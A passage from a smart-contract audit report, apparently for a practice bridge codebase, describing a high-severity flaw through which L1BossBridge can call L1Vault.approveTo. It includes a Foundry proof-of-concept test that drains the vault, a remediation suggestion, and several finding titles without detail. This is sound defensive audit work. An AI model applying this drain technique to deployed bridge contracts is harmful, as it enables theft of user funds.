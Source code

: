 The `L1BossBridge` contract owns the `L1Vault` contract. Therefore, an attacker could submit a call that targets the vault and executes is `approveTo` function, passing an attacker-controlled address to increase its allowance. This would then allow the attacker to completely drain the vault.

It's worth noting that this attack's likelihood depends on the level of sophistication of the off-chain validations implemented by the operators that approve and sign withdrawals. However, we're rating it as a High severity issue because, according to the available documentation, the only validation made by off-chain services is that "the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge". As the next PoC shows, such validation is not enough to prevent the attack.

To reproduce, include the following test in the `L1BossBridge.t.sol` file:

```solidity
function testCanCallVaultApproveFromBridgeAndDrainVault() public {
    uint256 vaultInitialBalance = 1000e18;
    deal(address(token), address(vault), vaultInitialBalance);

    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(attacker), address(0), 0);
    tokenBridge.depositTokensToL2(attacker, address(0), 0);

    bytes memory message = abi.encode(
        address(vault), // target
        0, // value
        abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max)) // data
    );
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

    tokenBridge.sendToL1(v, r, s, message);
    assertEq(token.allowance(address(vault), attacker), type(uint256).max);
    token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
}
```

Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the `L1Vault` contract.



### [H-5] `CREATE` opcode does not work on zksync era

### [H-6] `L1BossBridge::depositTokensToL2`'s `DEPOSIT_LIMIT` check allows contract to be DoS'd


### [H-7] The `L1BossBridge::withdrawTokensToL1` function has no validation on the withdrawal amount being the same as the deposited amount in `L1BossBridge::depositTokensToL2`, allowing attacker to withdraw more funds than deposited 


### [H-8] `TokenFactory::deployToken` locks tokens forever 


[HIGH]: https://img.shields.io/badge/-Critical-d10b0b "Critical"
[MEDIUM]: https://img.shields.io/badge/-Medium-orange "Medium"
[LOW]: https://img.shields.io/badge/-Minor-yellow "Minor"
[INFORMATIONAL]: https://img.shields.io/badge/-Informational-blue "Informational"
[GAS]: https://img.shields.io/badge/-Gas-9cf "Gas"